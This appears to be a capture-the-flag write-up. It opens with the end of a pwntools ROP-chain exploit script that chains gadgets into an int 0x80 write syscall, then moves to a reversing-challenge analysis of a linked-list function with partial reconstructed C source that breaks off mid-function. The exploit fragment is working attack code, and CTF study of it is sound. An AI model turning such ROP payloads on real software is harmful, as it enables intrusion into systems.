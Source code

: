 ```python3
payload += p32(0x080484f2)        # int 0x80; ret; 

# eax = 4 (write)
# ebx = 1 (stdout)
# ecx :: ptr to buffer
# edx = 120
payload += p32(0x080484ef)        # xor edx, edx; ret; 
payload += p32(0x08048505) * 4    # inc edx; ret; * 4
payload += p32(0x08048500)        # mov eax, edx; mov ebx, edx; ret; 
payload += p32(0x08048379)        # pop ebx; ret;
payload += p32(1)
payload += p32(0x08048505) * 116  # inc edx; ret; * 116
payload += p32(0x080484f2)        # int 0x80; ret; 

p.sendline(payload)
p.interactive()
```

# Reversing Challenge

## Analysis

The disassembly shows a function that performs a number of memory allocation, and modifications to that memory. If a memory allocation fails, the program exits with a status code of `1`.

A struct is supposedly defined to have a `char` value and a pointer to another node (linked list!). Each time a new struct is defined, it is made the 'head' of the list, and the previous head is attached to the node. The 10 nodes are assigned a data value from 'A' to 'J' respectively.  

The program seems to have a bug, which causes the nodes in the list to unlink themselves (`mov dword ptr [eax + 4], 0`).  
This is likely Adam's fault :) and can be fixed by making the change in the below source code

```c
# OLD
node->next = 0;
---
# NEW
node->value = 0;
```

Alternatively, the statement can be removed as it is reassigned immediately after.

At the end of the loop, the head of the list is returned.

## Source Code

```c
#include <stdlib.h>

struct myStruct {
    char value;
    struct myStruct *next;
};

struct myStruct *doIt() {
    struct myStruct *var_C = NULL;
    int var_8 = 0;

    while (var_8 <= 9) {
        struct myStruct *node = malloc(sizeof(struct myStruct));
        if (node == NULL) {
            exit(1);
        }
```